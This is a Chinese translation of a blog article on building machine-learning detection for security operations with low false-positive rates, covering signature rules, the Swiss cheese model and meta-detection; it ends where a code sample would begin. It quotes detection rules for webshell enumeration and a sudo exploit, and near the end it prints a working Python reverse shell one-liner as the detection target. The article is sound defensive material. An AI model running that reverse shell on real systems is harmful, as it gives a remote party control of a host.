








# 人工智能驱动的安全运营架构，具有低误报率

> 原文：[`towardsdatascience.com/architecture-of-ai-driven-security-operations-with-a-low-false-positive-rate-a33dbbad55b4?source=collection_archive---------1-----------------------#2023-04-21`](https://towardsdatascience.com/architecture-of-ai-driven-security-operations-with-a-low-false-positive-rate-a33dbbad55b4?source=collection_archive---------1-----------------------#2023-04-21)

## 本文讨论了在应对**网络安全需求**时建立**生产就绪的机器学习解决方案**的思路

[](https://ditrizna.medium.com/?source=post_page-----a33dbbad55b4--------------------------------)[](https://towardsdatascience.com/?source=post_page-----a33dbbad55b4--------------------------------) [Dmitrijs Trizna](https://ditrizna.medium.com/?source=post_page-----a33dbbad55b4--------------------------------)

·

[关注](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2F2fbea2ebee7a&operation=register&redirect=https%3A%2F%2Ftowardsdatascience.com%2Farchitecture-of-ai-driven-security-operations-with-a-low-false-positive-rate-a33dbbad55b4&user=Dmitrijs+Trizna&userId=2fbea2ebee7a&source=post_page-2fbea2ebee7a----a33dbbad55b4---------------------post_header-----------) 发表于 [Towards Data Science](https://towardsdatascience.com/?source=post_page-----a33dbbad55b4--------------------------------) ·12 min 阅读·Apr 21, 2023[](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fvote%2Ftowards-data-science%2Fa33dbbad55b4&operation=register&redirect=https%3A%2F%2Ftowardsdatascience.com%2Farchitecture-of-ai-driven-security-operations-with-a-low-false-positive-rate-a33dbbad55b4&user=Dmitrijs+Trizna&userId=2fbea2ebee7a&source=-----a33dbbad55b4---------------------clap_footer-----------)

--

[](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fbookmark%2Fp%2Fa33dbbad55b4&operation=register&redirect=https%3A%2F%2Ftowardsdatascience.com%2Farchitecture-of-ai-driven-security-operations-with-a-low-false-positive-rate-a33dbbad55b4&source=-----a33dbbad55b4---------------------bookmark_footer-----------)

图 1\. [NL2Bash 数据](https://github.com/TellinaTool/nl2bash) 上的异常。 [代码](https://github.com/dtrizna/slp/blob/main/examples/jupyterthon_ml_unix.ipynb)。安全分析人员希望在他们的仪表盘上避免看到这幅图片。作者提供的图片。

即使在今天，在一个使用了数十年的教育系统的完整性被 LLMs [侵蚀](https://www.nytimes.com/2023/01/12/technology/chatgpt-schools-teachers.html)，并且 [我们（终于）开始担忧](https://futureoflife.org/open-letter/pause-giant-ai-experiments/) AGI 带来的 [存在主义恐惧](https://www.lesswrong.com/posts/uMQ3cqWDPHhjtiesc/agi-ruin-a-list-of-lethalities) 的世界里，人工智能（AI）系统在非传统数据科学领域的适用性远未达到未来的里程碑，并且需要一种独特的方法。

在本文中，我们将进行关于 AI 在 *网络安全* 中适用性的概念讨论，**为什么** 大多数应用程序失败，以及 **什么** 方法实际上 **有效**。从推测的角度来看，所提供的方法和结论可以转移到其他具有低误报要求的应用领域，特别是那些依赖系统日志推理的领域。

我们将 **不会** 涉及 **如何** 在与信息安全相关的数据上实施机器学习（ML）逻辑。我已经在以下文章中提供了带有代码示例的功能实现：

+   基于幂律分布的企业安全遥测异常检测工程；

+   Shell 语言处理：在 Linux auditd 日志中使用 TF-IDF 和哈希编码进行入侵检测；

+   [哪些类似 GPT 的模型工程技术适用于系统日志？](https://medium.com/towards-data-science/which-gpt-like-engineering-strategies-work-on-system-logs-6b0a3a1ebcad)

# 签名

即使在今天，成熟的 **安全** 状态的 **根本** 和 **最有价值** 的组成部分仍然是有针对性的 **签名规则**。像下面示例的启发式，是我们防御的一个重要部分：

```py
parent_process == "wmiprvse.exe"
&& 
process == "cmd.exe"
&& 
command_includes ("\\\\127.0.0.1\\ADMIN")
```

老实说，像这样的规则非常好。这只是一个例子，(简化版) 逻辑 [由红色金丝雀共享](https://redcanary.com/threat-detection-report/threats/impacket/) 用于通过 WMI 进行横向移动检测，可以通过像 [impacket](https://github.com/fortra/impacket) 这样的工具实现。绝不要关闭这样的规则，并继续不断增加！

但是这种方法存在漏洞...

这就是为什么每个首席信息安全官（CISO）时不时会花费资金、人力和时间资源在一个通过“机器学习”的魔力来解决安全问题的解决方案上。通常，这看起来像是一个投资回报低的兔子洞：（1）安全分析师的仪表盘亮得像圣诞树一样，见上图 Figure 1；（2）分析师感到警报疲劳；（3）ML 启发式被禁用或仅被忽略。

# 通用 vs. 狭义启发式

首先让我提请你注意 **狭义** 和 **通用** 智能的概念，因为这直接影响到安全启发式。

**智能**，广义上说，是实现**目标**的能力。人类被认为具有一般智能，因为我们能够“归纳”并实现那些在自然选择和遗传驱动的环境中不需要达到的目标，比如登月。

虽然归纳允许我们的物种征服了世界，但有些实体在某些狭窄任务上的表现远胜于我们。例如，计算器在算术方面比最聪明的我们如[冯·诺依曼](https://en.wikipedia.org/wiki/John_von_Neumann)更为优秀，或者松鼠（！）在记忆去年隐藏的橡实位置方面显著超过人类。



图 2\. 智能的示意图。图片由作者提供。

我们可以以类似的方式推理安全启发式方法。有些规则高度关注特定工具或 CVE，而有些规则尝试检测更广泛的技术集。例如，考虑[这一检测逻辑](https://github.com/SigmaHQ/sigma/blob/master/rules/linux/process_creation/proc_creation_lnx_sudo_cve_2019_14287.yml)，专注于`sudo`权限提升，利用[CVE-2019–14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)：

```py
CommandLine|contains: ' -u#'
```

相反，[这个 webshell 检测规则](https://github.com/SigmaHQ/sigma/blob/master/rules/linux/process_creation/proc_creation_lnx_webshell_detection.yml)（以隐去形式复制）尝试实现更广泛的逻辑：

```py
ParentImage|endswith:
 - '/httpd'
 - '/nginx'
 - '/apache2'
...

&&
Image|endswith:
 - '/whoami'
 - '/ifconfig'
 - '/netstat'
```

它定义了一种更复杂的行为启发式方法，将常见 HTTP 服务器的父进程映射到[枚举](https://attack.mitre.org/tactics/TA0007/)活动上。

类似于上述的智能景观，我们可以通过将检测规则映射到攻击技术、工具和程序（TTPs）的景观来可视化安全态势，如下所示：



图 3\. 您的安全态势的示意图。注意漏洞，不要自满——您有更多漏洞。图片由作者提供。

# 假阳性与假阴性

Sudo CVE 规则**仅检测**一个特定技术，而忽略了**所有其他**（假阴性率极高）。相反，webshell 规则*可能*检测到一系列攻击性技术和[来自 Kali Linux 工具箱的 webshell 工具](https://www.kali.org/tools/webshells/)。

显而易见的问题是——那么，为什么我们不使用几个广泛的行为规则来覆盖所有可能的 TTP？

因为它们带来假阳性……很多。

在这里，我们观察到**假阳性与假阴性权衡**。

尽管大多数组织可以直接复制粘贴 sudo CVE 规则并立即在他们的 SIEM 中启用，但 webshell 规则可能会在“仅监控”模式下运行一段时间，同时安全分析师会过滤掉他们环境中观察到的所有合法触发。

> **通过构建检测，安全工程师试图回答什么是** m̶a̶l̶i̶c̶i̶o̶u̶s̶̶ **不代表其环境的。**

他们可能会看到系统管理员创建的自动化警报，这些警报会运行一个 REST API 请求，触发其中一个枚举操作，或者是一个 Ansible shell 脚本，当其部署时，会创建奇怪的父子进程关系。最终，我观察到广泛的行为规则变成了包含几十个排除项的列表，每月的编辑次数比活动代码库还要多。这就是为什么安全工程师在规则的广泛性和保持尽可能低的误报率之间做平衡。

# 机器学习作为安全启发式方法的失败

在这里，安全专业人员开始寻找替代技术来实施行为启发式。机器学习实现的要求是 *a priori* 宽泛的。鉴于机器学习算法的适用性，安全专业人员的直觉往往会引导他们走向无监督学习。我们要求人工智能 [捕捉网络中的异常](https://ieeexplore.ieee.org/document/9610045)，对 [异常命令行](https://blog.developer.adobe.com/using-machine-learning-to-detect-command-line-anomalies-a3257daafeab) 发出警报，等等。这些任务处于“为我解决安全问题”的泛化水平。因此，生产环境中表现不佳也就不足为奇了。

实际上，机器学习往往正是按照我们要求的方式执行。它可能会报告一个异常的*elevator.exe* 二进制文件，这个文件是 IntelliJ 首次用来更新自身的，或者是一个新的 CDN，Spotify 开始使用以便更新，其延迟与 [Command and Control](https://attack.mitre.org/tactics/TA0011/) 回调的抖动延迟完全一致。还有成百上千个类似的行为，这些行为在那一天都显得异常。

在监督学习的情况下，如果能够组装大量标记的数据集，例如 [恶意软件检测](https://arxiv.org/abs/2006.09271)，我们确实能够建立像 [EMBER](https://github.com/elastic/ember) 这样的定性建模方案，这些方案能够很好地泛化。

但即使在这些解决方案中——现代人工智能模型在信息安全领域仍然没有足够广泛的背景来解析“灰色”区域。例如，我们应该将 TeamViewer 视为好还是坏？许多中小型企业将其用作廉价的 VPN。同时，一些中小型企业也是 [勒索软件组织](https://www.synacktiv.com/publications/legitimate-rats-a-comprehensive-forensic-analysis-of-the-usual-suspects.html)，利用这些工具对目标网络进行后门攻击。

# 机器学习作为安全启发式方法的成功

基于 ML 的启发式方法应遵循与基于规则的检测相同的理念——专注于特定的恶意 TTP 集。要在安全领域应用 AI —— 实际上你需要对安全有一些知识和直觉，抱歉数据科学家们。¯\_(ツ)_/¯ *至少在今天，直到 LLM 实现广泛的泛化，它们可以协同解决安全挑战（以及许多其他任务）。*

例如，与其要求命令行中的异常（并得到如本文图 1 所示的 634 个异常结果），不如要求围绕特定攻击技术的超出基线的活动——例如，异常的 Python 执行 ([T1059.006](https://attack.mitre.org/techniques/T1059/006/)) 和 *哇！* —— 在 **相同** 的 ML 算法、预处理和建模技术下，我们仅得到一个异常，即 Python 反向 shell：



图 4\. Python 异常在 [NL2Bash 数据集](https://github.com/TellinaTool/nl2bash)中由于恶意技术的扩展。异常报告 Python 反向 shell。[代码](https://github.com/dtrizna/slp/blob/main/examples/jupyterthon_ml_unix.ipynb)。图片由作者提供。

**有效的无监督 Unix 重点技术示例：**

+   异常的 python/perl/ruby 进程（通过脚本解释器执行，[T1059.006](https://attack.mitre.org/techniques/T1059/006/)）；

+   异常的 *systemd* 命令（通过 systemd 进程持久化，[T1543.002](https://attack.mitre.org/techniques/T1543/002/)）；

+   高严重性跳板机的异常 ssh 登录源 ([T1021.004](https://attack.mitre.org/techniques/T1021/004/))。

**有效的无监督 Windows 重点技术示例：**

+   在域控制器、MSSQL 服务器上登录的异常用户 ([T1021.002](https://attack.mitre.org/techniques/T1021/002/))；

+   加载 NTDLL.DLL 的异常进程 ([T1129](https://attack.mitre.org/techniques/T1129/))；

+   异常的 RDP 客户端和服务器组合的网络连接 ([T1021.001](https://attack.mitre.org/techniques/T1021/001/))。

**功能性监督 ML 基线示例：**

+   反向 shell 模型：从已知方法生成数据集中的恶意部分（可以参考 [类似生成器](https://www.revshells.com/)）；使用环境遥测中的进程创建事件作为数据集的合法对照。

+   与其在思维中建立具有对抗混淆的稳健规则，如下图 5 所示（剧透：你不会成功），不如建立一个单独的 ML 模型，将混淆检测作为一种独立技术。[这是 Mandiant 关于此主题的好文章](https://www.mandiant.com/resources/blog/obfuscated-command-line-detection-using-machine-learning)。



图 5\. 简单 cmd.exe 命令行混淆的示例。图片由作者提供。

# 机器学习是签名逻辑的扩展

为了系统化上述示例，成功应用机器学习启发式方法包括这两个步骤：

1.  缩小输入数据范围，使其尽可能精确地捕捉特定 TTP 生成的遥测数据；

1.  定义尽可能少的维度来寻找偏离基线的活动（例如，仅查看*process.image*的逻辑会比同时查看*parent.process.image*和*process.args*的逻辑产生更少的警报）。

上述**步骤 1**实际上***是***我们创建**签名规则**的方法。

你是否记得我们上面讨论过在启用 Web Shell 规则之前，“*安全分析师过滤掉代表其环境的所有触发器*”？这就是**步骤 2**。

在前面的例子中，一个人建立了合法活动和恶意活动之间的决策边界。这实际上是当代机器学习算法擅长的领域。机器学习启发式方法可以减轻手动过滤大量接近特定 TTP 的合法活动的负担。因此，机器学习允许以更少的工作构建比签名规则更广泛的启发式方法。

> 机器学习只是实现相同目标的另一种方式，是签名的扩展。

# 瑞士奶酪模型

现在我们准备勾勒出一个整体的愿景。

传统的检测工程方法是尽可能多地堆叠签名规则，而不至于溢出[SOC](https://en.wikipedia.org/wiki/Security_operations_center)仪表盘。这些规则中的每一个都有较高的假阴性率（FNR）但较低的假阳性率（FPR）。

我们可以进一步继续堆叠具有相同 FPR 要求的机器学习启发式方法——它必须保持低 FPR 以保护唯一的瓶颈：人工分析师的注意力。机器学习启发式方法通过引入更通用的行为逻辑来弥补基于规则的检测中的空白，而不会显著消耗安全工程师的时间资源。

如果你已经覆盖了大多数容易解决的问题并希望深入行为分析，可以在已有基础上引入深度学习逻辑。



图 6\. 展示了使用不同技术实现相同目标的安全启发式的协作工作全景图。

记住奥卡姆剃刀原则，并尽可能简单地实现每个新启发式方法。除非签名规则无法定义可靠的基线，否则不要使用机器学习。

> 这个模型中的每一片段都应该有低假阳性率。你可以忽略高假阴性数量——为解决这个问题，只需添加更多片段。

例如，在上面的异常 Python 执行示例中——Python 参数在你的环境中可能仍然变化太大，会导致过多的异常活动警报。你可能需要进一步缩小范围。例如，仅捕捉命令行中包含`-c`的进程，以查找作为 Python 二进制文件参数传递的代码，从而只专注于像这样的 Python 反向 shell 技术：

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

由于我们降低了假阳性率（FPR），因此我们增加了假阴性。因此，你可能会错过执行具有不寻常名称的 Python 脚本，例如`python fake_server.py`，攻击者可能会使用这些脚本来伪装成合法服务。为此，你可能需要创建一个专注于这一子集 TTPs 的单独启发式方法，但它自身的 FPR 较低。

# 元检测层

值得注意的是，即使遵循瑞士奶酪方法论，你也会得到冗长的启发式方法。通常，这些方法不代表*先验*的恶意性，但会关注上下文。

例如，从新源登录到高严重性主机的 SSH/RDP 并不是坏事（可能只是新员工或工作站），以及执行`whoami /all`在熟练用户中可能很常见。因此，这两种启发式方法都不适合直接触发警报。然而，这两者的组合可能值得分析师关注。

解决这一困境的方法是在这种冗长的规则之上引入额外的逻辑，以产生“真正的正面结果”。我们可以称之为*元检测层*。



图 7\. 包括专门解析冗长但有用规则的警报设置示意图。

应用于规则激活之上的元逻辑可能有所不同，但通常涉及两个步骤：

1.  *“按组”*对所有由“*实体*”触发的事件进行分组，例如主机、用户名、源 IP、cookie 等。

1.  对某个*时间段*内的激活应用“*聚合函数*”。

简单而有效的元检测逻辑示例：

+   只需*计算*来自单一实体（例如单一主机或用户）的不同规则触发次数，并报告是否超过阈值，例如在三小时内触发三条不同规则；

+   如上所述，但根据严重性对规则应用*加权和*，例如，“关键”规则计为 3，“中等”计为 2，“信息”计为 1——如果超过阈值则报告，例如*总和 > 6*；

存在更复杂的方法，例如在[以下 AISec ’22 出版物](https://dl.acm.org/doi/10.1145/3560830.3563726)中定义的方法，其中我在恶意软件表示上使用了第二层机器学习（ML）。这些方法应根据特定的应用和环境进行调整，因为数据特性、遥测量和基础设施规模可能需要不同的方法以保持在可接受的警报限度内。

# 结论

在本文中，我们讨论了在签名方法之外扩展安全操作工具库的思维模式。大多数实现都未能正确完成此操作，因为安全专业人员通过机器学习（ML）定义了过于广泛的行为启发式要求。

我们认为，正确的应用应该由攻击性技术、战术和程序（TTPs）驱动。在适当使用的情况下，机器学习技术可以节省大量的人力资源，有效地过滤出围绕特定 TTPs 的合法活动基线。

一个成熟且成功的安全姿态将结合签名和行为启发式，其中每个单独的检测逻辑都有低假阳性率，而缺失的假阴性被并行堆叠的多个启发式算法所弥补。

本文中的示例包括如果应用于传统安全操作的检测工程案例。然而，我们认为，经过有限修改的相同方法在其他安全应用中也会有用，例如 EDR/XDR 启发式空间、网络流量分析和计数。

# 附录

## 技术说明：在固定假阳性率下估算检测率

这是一个关于如何在生产环境中评估行为机器学习启发式算法效用的通知及代码示例。

数据科学家——忘记*准确率*、*F1*评分和*AUC*——这些对安全解决方案的生产准备性几乎没有信息。这些指标可以用来推理多个解决方案的**相对**效用，但不是**绝对**值。

这是因为安全遥测中的**基准率谬误**——基本上，你的模型看到的所有数据都是良性样本（直到它不是，这才是重要的）。因此，即使是*0.001%*的假阳性率，如果你的启发式算法每天执行 10 000 次检查，也会带来每天 10 个警报。

你模型的唯一真实价值可以通过查看**在固定假阳性率（FPR）下的检测率（即真实阳性率，TPR）**来估算。

请考虑下图——**x**-**轴**表示数据样本的**真实标签**。它要么是恶意的，要么是良性的。在**y 轴**上是模型的概率**预测**——它认为样本有多糟糕：



图 7\. 在扩展的[NL2Bash](https://github.com/TellinaTool/nl2bash)数据上的预测分布。[代码](https://github.com/dtrizna/slp/blob/main/examples/jupyterthon_ml_unix.ipynb)。图片由作者提供。

如果你只能接受**一个假警报**，你必须将模型的决策阈值设置在大约~0.75（虚线红色线），稍高于第二个假阳性。因此，模型的实际检测率大约是~50%（虚线几乎与箱线图的均值重合）。

在给定有*y_true*（真实标签）和*preds*（模型预测）的情况下，可以通过下面的代码示例来评估在可变假阳性率下的检测率：
